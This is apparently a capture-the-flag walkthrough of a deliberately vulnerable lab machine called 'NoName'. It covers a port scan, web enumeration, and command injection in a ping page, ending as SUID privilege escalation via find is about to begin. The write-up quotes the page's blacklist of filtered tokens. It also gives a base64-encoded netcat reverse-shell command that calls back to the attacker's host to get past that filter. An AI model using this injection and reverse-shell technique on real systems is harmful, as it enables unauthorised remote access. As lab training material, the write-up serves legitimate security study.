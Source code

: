 # NoName

This machine crashes alot so frustrating Machine →

Let’s find the IP Address first >>

![Untitled](NoName/Untitled.png)

```bash
IP : 10.0.2.57
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.57     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-27 15:54 IST
Nmap scan report for 10.0.2.57
Host is up (0.0023s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:7E:D4:B7 (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⤵️

![Untitled](NoName/Untitled%201.png)

Now Entering any value gives no results so lets see into the directory listing files →

![Untitled](NoName/Untitled%202.png)

lets see the admin directory →

![Untitled](NoName/Untitled%203.png)

I think paraphrase are used in as password from extracting data from image or file so lets see what I can get from this →

![Untitled](NoName/Untitled%204.png)

as I got a file named as `superadmin.php` →

![Untitled](NoName/Untitled%205.png)

Now I see it is pinging the input IP address so lets bypass it and make it into a command Injection →

![Untitled](NoName/Untitled%206.png)

Now I can execute certain commands so lets see the source code of this superadmin.php file so that  we can debugg this page →

![Untitled](NoName/Untitled%207.png)

After seeing this code I have to bypass (";","&&","/","bin","&"," &&","ls","nc","dir","pwd") these attributes to gain an access →

So lets use base64 as encoding and decoding system and then executing it .

Lets try →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ echo "nc.traditional -e /bin/bash 10.0.2.15 4444" | base64
bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDEwLjAuMi4xNSA0NDQ0Cg==
```

![Untitled](NoName/Untitled%208.png)

In response to that I got a local privilege escalation ⤵️

![Untitled](NoName/Untitled%209.png)

Lets enumerate further →

```bash
www-data@haclabs:/home$ ls
ls
haclabs  yash
www-data@haclabs:/home$ cd yash
cd yash
www-data@haclabs:/home/yash$ ls -al
ls -al
total 36
drwxr-xr-x 5 yash yash 4096 Feb 15  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash   13 Feb 15  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
www-data@haclabs:/home/yash$ cat flag1.txt
cat flag1.txt
Due to some security issues,I have saved haclabs password in a hidden file.
www-data@haclabs:/home/yash$
```

Now I also got flag2.txt into haclabs directory →

```bash
www-data@haclabs:/home/haclabs$ cat flag2.txt	
cat flag2.txt
I am flag2 

	   ---------------               ----------------
                         
                     
                               --------
www-data@haclabs:/home/haclabs$
```

Now lets see the SUIDs files →

![Untitled](NoName/Untitled%2010.png)

I got a command of `find` that have a permission to get use to root lets try →